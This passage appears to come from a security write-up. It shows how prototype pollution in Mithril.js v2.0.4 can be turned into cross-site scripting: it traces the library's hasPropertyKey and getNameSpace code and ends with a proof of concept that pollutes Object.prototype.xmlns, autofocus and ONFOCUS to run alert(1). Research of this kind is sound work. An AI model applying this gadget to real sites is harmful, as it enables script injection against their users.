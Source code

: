 If this returns true, it executes `vnode.dom[key] = value` in the end. It's not what we want because `vnode.dom['ONCLICK'] = 'alert(1)'` makes no effect.

The only way to add a inline event handler to the DOM element is to let `hasPropertyKey(vnode, key, ns)` failed and then run `vnode.dom.setAttribute(key === "className" ? "class" : key, value)`, for example:

``` html
<html lang="en">
  <head>
    <meta charset="utf-8">
  </head>
  <body>
    <div id=a>click me</div>
    <script>
      // this works
      a.setAttribute('ONCLICK', 'alert(1)')
    </script>
  </body>
</html>
```

Now, our goal is to fail `hasPropertyKey(vnode, key, ns)` and make it returns `false`:

https://github.com/MithrilJS/mithril.js/blob/v2.0.4/render/render.js#L815

``` js
function hasPropertyKey(vnode, key, ns) {
  // Filter out namespaced keys
  return ns === undefined && (
    // If it's a custom element, just keep it.
    vnode.tag.indexOf("-") > -1 || vnode.attrs != null && vnode.attrs.is ||
    // If it's a normal element, let's try to avoid a few browser bugs.
    key !== "href" && key !== "list" && key !== "form" && key !== "width" && key !== "height"// && key !== "type"
    // Defer the property check until *after* we check everything.
  ) && key in vnode.dom
}
```

It returns `false` if `ns` is not `undefined`. But wait, where is this `ns` comes from?

Here is the code:  https://github.com/MithrilJS/mithril.js/blob/v2.0.4/render/render.js#L15

``` js
function getNameSpace(vnode) {
  return vnode.attrs && vnode.attrs.xmlns || nameSpace[vnode.tag]
}
```

It's from `vnode.attrs.xmlns`, so we can pollute this attribute.

In order to not affect other functionalities, we can use the default namespace for HTML: `http://www.w3.org/1999/xhtml`

To piece all the puzzles together, following is a simple proof-of-concept:

``` js
const App = {
  view: function() {
    return m("input", {class: 'a'},"hello")
  }
}

Object.prototype.xmlns = 'http://www.w3.org/1999/xhtml'
Object.prototype.autofocus = 1
Object.prototype.ONFOCUS = 'alert(1)'
m.mount(document.querySelector('main'), App)
```
